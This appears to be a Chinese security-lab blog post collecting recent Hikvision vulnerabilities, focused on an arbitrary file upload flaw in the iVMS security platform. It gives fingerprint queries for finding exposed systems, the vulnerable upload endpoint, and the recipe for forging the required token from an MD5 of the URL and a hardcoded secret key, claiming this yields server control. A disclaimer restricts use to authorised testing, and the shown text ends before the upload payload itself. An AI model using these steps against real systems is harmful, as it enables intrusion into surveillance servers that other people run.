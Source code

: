 #  海康威视常用漏洞集合（近期）

原创 凯撒安全实验室  [ 凯撒安全实验室 ](javascript:void\(0\);)

**凯撒安全实验室** ![]()

微信号 SecueKaiser

功能介绍 Secure
Kaiser安全团队成立于2021年7月，是一个对网安事业充满热忱和奉献精神的团队，团队致力于红蓝对抗、CTF、漏洞挖掘、渗透测试，在众多国家级、省市级CTF比赛中名列前茅。

____

___发表于_

收录于合集

#海康威视 1 个

#凯撒 2 个

#网络安全 4 个

**0x01  阅读须知**

**凯撒安全实验室的技术文章仅供参考，此文所提供的信息只为网络安全人员对自己所负责的网站、服务器等（包括但不限于）进行检测或维护参考，未经授权请勿利用文章中的技术资料对任何计算机系统进行入侵操作。利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责。
本文所提供的工具仅用于学习，禁止用于其他！！！**

 ****0x02  漏洞利用

海康威视iVMS 综合安防前台任意文件上传

鹰图指纹:

web.body="/views/home/file/installPackage.rar"

web.icon=="3670cbb1369332b296ce44a94b7dd685"

![](https://gitee.com/fuli009/images/raw/master/public/20230715093428.png)

某康威视iVMS某接口存在任意文件上传漏洞 配合正确的token值可直接获取服务器权限

利用条件:存在任意文件上传接口+token值

漏洞路径

/eps/api/resourceOperations/upload

尝试访问接口:

/eps/api/resourceOperations/upload 发现需要token进行鉴权

![](https://gitee.com/fuli009/images/raw/master/public/20230715093429.png)

token构造：大写

md5(http://url/eps/api/resourceOperations/uploadsecretKeyIbuilding)

![](https://gitee.com/fuli009/images/raw/master/public/20230715093430.png)
